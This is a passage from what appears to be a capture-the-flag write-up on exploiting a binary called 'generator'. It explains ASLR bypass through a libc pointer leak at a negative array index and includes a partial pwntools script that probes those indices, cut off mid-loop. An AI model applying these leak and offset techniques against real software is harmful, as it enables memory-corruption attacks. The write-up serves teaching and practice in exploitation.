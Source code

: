 **Key insight:** The base changes, but the OFFSET stays the same!
```
system() is always 0x50d70 bytes from libc base
```

So if we know:
1. ONE address inside libc (leaked_address)
2. Its offset from base (offset)

We can calculate:
```
libc_base = leaked_address - offset
system() = libc_base + 0x50d70
```

---

### Real-World Analogy for Leaks

**Imagine:**
- You want to visit John (= `system()` function)
- John moves to a random house every day (= ASLR)
- But Bob (= some other libc function) always lives 5 houses away from John
- If you find Bob's address, you know: John = Bob - 5 houses

**In our exploit:**
- John = `system()` function (what we want to call)
- Bob = Some pointer at `areas[-3].height` (what we can leak)
- Distance = `0x21aaa0` offset (stays constant)

---

### Finding the Leak - Step by Step

#### Step 1: Testing Negative Indices Locally

First, we need to find which negative index contains libc pointers.

**Test script:**
```python
#!/usr/bin/env python3
from pwn import *
import subprocess, time

context.arch = "amd64"
elf = ELF('./generator')

p = process(elf.path)
p.sendlineafter(b'URL: ', b'http://test.com')

# Create one valid area
p.sendlineafter(b'choice: ', b'1')
for _ in range(4): p.sendlineafter(b': ', b'1')
p.sendlineafter(b'URL: ', b'http://test.com')
p.sendlineafter(b'title: ', b'test')

# Get actual libc base from /proc
time.sleep(0.2)
pid = p.pid
maps = subprocess.check_output(f"cat /proc/{pid}/maps | grep libc | head -1", shell=True).decode()
actual_base = int(maps.split('-')[0], 16)
log.info(f"Actual libc base: {hex(actual_base)}")

# Test each negative index
for idx in [-1, -2, -3, -4, -5]:
    log.info(f"\n=== Testing area {idx} ===")
    p.sendlineafter(b'choice: ', b'3')
```